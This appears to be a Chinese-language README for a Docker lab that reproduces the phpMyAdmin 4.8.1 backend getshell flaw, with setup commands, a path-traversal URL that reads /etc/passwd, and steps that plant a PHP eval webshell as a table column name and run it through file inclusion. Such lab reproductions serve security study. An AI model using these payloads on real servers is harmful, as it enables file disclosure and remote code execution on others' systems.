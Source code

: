 # phpmyadmin 后台getshell漏洞

## 启动环境

```
docker-compose build
docker-compose up -d
```

## 文件读取漏洞
利用mysql的root‘密码读取漏洞登录后台

然后利用payload
```shell
http://127.0.0.1/index.php?target=db_sql.php%253f/../../etc/passwd
```


![](README/F348C0F8-98D1-4290-9BBD-4FB762A2BF6A.png)

## getshell漏洞
之前通过phpmyadmin调用mysql执行sql语句直接导出木马到网站的目录下，但是mysql 5.7限制了mysql导出的位置，但是利用mysql的数据的物理存储位置的方式是可以通过文件包含获得webshell

先利用 phpmyadmin创建一个数据库flask,然后创建一个shadow的表，创建名为 <?php eval($_GET[shadow]); ?>的列，当前数据库的物理存储路径是_var_lib/mysql

这边也有一个问题，权限，我将/var/lib/mysql的权限设为了777

![](README/D6946A77-A26B-4D62-A78C-742A59DDE3E0.png)



![](README/163D3848-20B8-43C6-A584-E1DA7B9F2508.png)

```shell
http://127.0.0.1/index.php?shadow=phpinfo();&target=db_sql.php%253f/../../var/lib/mysql/flask/shadow.frm
```

![](README/D58C818E-B6E1-49B1-87E4-8A009FC3D409.png)





[【首发】phpmyadmin4.8.1后台getshell](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485036&idx=1&sn=8e9647906c5d94f72564dec5bc51a2ab&chksm=e89e2eb4dfe9a7a28bff2efebb5b2723782dab660acff074c3f18c9e7dca924abdf3da618fb4&mpshare=1&scene=1&srcid=0621gAv1FMtrgoahD01psMZr&pass_ticket=LqhRfckPxAVG2dF%2FjxV%2F9%2FcEb5pShRgewJe%2FttJn2gIlIyGF%2FbsgGmzcbsV%2BLmMK#rd)

